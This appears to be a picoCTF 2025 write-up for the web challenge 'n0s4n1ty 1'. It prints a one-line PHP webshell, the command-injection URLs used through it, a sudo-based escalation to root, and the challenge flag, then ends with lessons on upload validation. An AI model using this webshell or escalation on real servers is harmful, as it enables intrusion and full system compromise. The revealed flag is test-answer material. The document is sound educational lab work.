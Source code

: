 # 🌀 n0s4n1ty 1 — Writeup

![Challenge Banner](https://github.com/user-attachments/assets/5321772c-d41a-4f64-af76-b55f93a70650)

---

## 📌 Challenge Info
- **Category:** Web Exploitation
- **Difficulty:** Easy
- **Event:** picoCTF 2025

**Description:**  
A developer added profile picture upload functionality, but with flawed implementation. Our mission is to exploit the upload form and grab the hidden flag from `/root`.

---

## 🛠️ Steps to Solve

### 1️⃣ Inspect the Upload Page
We were given a profile upload site. By inspecting the source code (`CTRL + U`), we found that the upload form directly sends files to `upload.php` without any restrictions.

📸 Screenshot:

![Upload Page](https://github.com/user-attachments/assets/d9f2afe6-e980-4164-b960-15af9b73f6a7)

---

### 2️⃣ Confirm No File Restrictions
The code shows **no validation checks** on file type or extension. This means we can upload any file, including `.php` webshells.

```html
<form action="upload.php" method="post" enctype="multipart/form-data">
    <input type="file" name="fileToUpload" id="fileToUpload" />
    <button type="submit">Upload Profile</button>
</form>
```

---

### 3️⃣ Upload a PHP Webshell
We created a simple PHP shell:
```php
<?php system($_REQUEST['cmd']); ?>
```
Saved it as `upload.php` or any name you want and uploaded it successfully.

📸 Screenshot:

![Upload Success](https://github.com/user-attachments/assets/91f3dfee-cbfe-4280-a45c-d8bdcc6d2542)

The site responded with a file path:
```
uploads/upload.php
```

---

### 4️⃣ Execute Commands via Webshell
By visiting:
```
http://standard-pizzas.picoctf.net:57877/uploads/upload.php?cmd=ls -lah
```
We could run arbitrary commands on the server 🎉

📸 Screenshot:

![Uploaded Path](https://github.com/user-attachments/assets/4ed2888c-4cce-4e84-a893-bf2f8e1534f4)

We tried listing `/root`, but nothing appeared. Then we checked the hint, which suggested running `sudo -l`.

---

### 5️⃣ Privilege Escalation
Running `sudo -l` showed this output:

![Sudo Privileges](https://github.com/user-attachments/assets/45d1db88-ea7b-4bf1-a16a-a3523cb8ba40)

This means the user `www-data` has **full root privileges without a password** (`NOPASSWD: ALL`).

So we can run:
```
http://standard-pizzas.picoctf.net:57877/uploads/upload.php?cmd=sudo ls -ah /root
```
<img width="614" height="106" alt="image" src="https://github.com/user-attachments/assets/b9fddeab-d8d1-4071-9a32-97ba23084cb3" />

Look, a flag.txt appeared 🏴

### 6️⃣ The Grand Finale 🏁
To claim the treasure:
```
http://standard-pizzas.picoctf.net:57877/uploads/upload.php?cmd=sudo cat /root/flag.txt
```
<img width="1011" height="105" alt="image" src="https://github.com/user-attachments/assets/d1a59b33-ec64-4d86-bbf0-35461e26d15b" />
💡 And there it was:
picoCTF{wh47_c4n_u_d0_wPHP_075b4e66}

---

## 🔎 Explanation of the Vulnerability
- The server did not restrict file uploads, allowing arbitrary code execution.
- With a PHP shell, we gained **remote code execution**.
- Due to `sudo` misconfiguration, `www-data` had **full root access** with no password required.

---

## 📝 Lesson Learned
- Always **validate and restrict file uploads** (e.g., only images, MIME checks, rename files).
- Never grant `www-data` or web users unrestricted `sudo` privileges.
- This challenge shows how a simple file upload bug can escalate to **full system compromise**.

---

## 🎯 Flag
```
picoCTF{wh47_c4n_u_d0_wPHP_075b4e66}
```

🌀 Game over — full pwn achieved!
